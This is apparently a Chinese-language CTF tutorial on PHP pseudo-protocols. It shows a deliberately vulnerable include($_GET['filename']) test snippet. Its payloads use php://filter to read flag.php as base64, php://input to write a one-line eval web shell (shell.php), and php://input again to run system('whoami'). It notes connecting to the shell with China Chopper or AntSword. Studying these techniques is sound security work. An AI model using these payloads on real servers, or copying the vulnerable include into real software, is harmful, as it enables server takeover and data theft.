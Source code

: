 php://输入输出流

PHP提供了一些杂项输入输出（i/o)流，允许访问PHP的输入输出流，标准输入输出和错误描述符，内存中，磁盘备份的临时文件流以及可以操作 其他读取写入文件资源的过滤器。

php://伪协议ctf中比较常用的两个协议是php://filter,php://input

其他还有的几个协议是：php://stdin,php://memory,php://temp



# 1.php://filter(本地磁盘文件进行读取）

元封装器，设计用于“数据流打开”时的“筛选过滤”应用，对本地磁盘文件进行读写。

用法：?filename=php://filter/read=convert.base64-encode/resource=xxx.php

条件：allow_url_fopen=on/off

           allow_url_include=on/off

测试代码：

```javascript
<?php
$filename=$_GET['filename'];
include($filename);
```

读取目录中的flag.php文件，在flag.php文件在浏览器执行之前将其编码成base64位，利用apache服务器遇到无法识别字符，当做txt文件输出的特性，将flag.php文件以base64编码形式输出。

![](images/8787C2C5D9A4451A973C433482936393clipboard.png)

base64解码得到flag.php文件内容：

![](images/556ED877645241CFB6DE0B401C9C21EFclipboard.png)



2.php://input

可以访问请求的原始数据的只读流。既可以直接读取到post上没有经过解析的原始数据。enctype="multipart/from-data"的时候php://input是无效的

用法：?filename=php://input

[post]：需要传输的数据。如：<?php phpinfo();?>

条件:allow_url_fopen:off/on

         allow_url_include:on

测试代码：

```javascript
<?php
$filename=$_GET['filename'];
include($filename);
```

这里利用Postman进行提交。

![](images/CDBEBC849D7D43F889D735DCB1EABB13clipboard.png)

将获取到的html代码，用html文件的形式打开，获取到服务器的配置信息。

![](images/898D5738FA4446AF9D6931C8A50594E0clipboard.png)



# 2.1利用php://input执行写入木马

用法：

[post] <?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>



![](images/00756B616B3648129386D087EEBD41ABclipboard.png)

检查目录，发现目录下多了一个shell.php文件。

![](images/A5DBE6C741604F0E814BA706B9976711clipboard.png)

菜刀或者蚁剑连接。即可发现连接上整个服务器

![](images/A9C4F8CE4A4B46509FFF14CDAB3989DCclipboard.png)

# 2.2php://input执行命令行

用法：

[post] <?php system('whoami');?>

![](images/F88A36C9310847868944769531DE1473clipboard.png)

